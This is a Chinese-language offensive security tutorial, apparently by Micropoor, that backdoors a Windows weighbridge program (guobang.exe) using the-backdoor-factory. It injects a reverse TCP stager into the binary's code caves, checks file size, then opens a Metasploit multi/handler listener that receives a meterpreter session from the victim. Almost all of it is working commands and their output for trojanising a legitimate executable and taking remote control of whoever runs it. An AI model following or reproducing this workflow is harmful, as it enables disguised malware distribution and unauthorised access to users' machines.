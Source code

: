 项目地址：
https://github.com/secretsquirrel/the-backdoor-factory

### 原理
可执行二进制文件中有大量的 00，这些 00 是不包含数据的，将这些数据替换成 payload，并且在程序执行的时候，jmp 到代码段，来触发 payload。

### 以项目中的过磅系统为例：

```bash
root@John:~/Desktop# git clone https://github.com/secretsquirrel/the-backdoor-factory.git 
//安装the-backdoor-factory 
```  
![](/img/baa5f2ef8bc4b8332d377e179c2897d1.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -S 
//检测是否支持后门植入
```  
![](/img/65f5db4ee779eaacdff8a20bdfd35ea8.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -c -l 150 
//测试裂缝空间size150
```  
![](/img/2b8e42c3fe1195f37bf7b01fb31af21b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -s show 
//查看可用payload
```  
![](/img/c576aabd967bcbbf39467dcf40ec2759.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# ./backdoor.py -f ~/demo/guobang.exe -H 192.168.1.111 -P 8080 -s iat_reverse_tcp_stager_threaded 
//插入payload，并生成文件。
```  
![](/img/1dbc7c753b5135a67db8ac3bee6f3352.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# md5sum ./guobang.exe /root/demo/guobang.exe
//对比原文件与生成文件MD5值
```  
![](/img/999c8d02e798b61f61a4d8cd284ffd0b.jpg)

```bash
root@John:~/Desktop/the-backdoor-factory# du -k ./guobang.exe /root/demo/guobang.exe
//对比文件大小
```  
![](/img/edd13750f6b3e03121e63e805b4a5b97.jpg)

```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.1.111
lhost => 192.168.1.111
msf exploit(handler) > set lport 8080
lport => 8080
msf exploit(handler) > exploit -j 
//开启本地监听
```  
![](/img/94330fb03737c7e42549f1b9b3a8bb21.jpg)

//打开软件  
![](/img/2139e4a1c0c1e326605cf246742ff3a5.jpg)

```bash
meterpreter > getuid
Server username: John-PC\John 
```
//确定目标  

![](/img/613afd4b9343cfd43965aa934b71cc48.jpg)

>   Micropoor
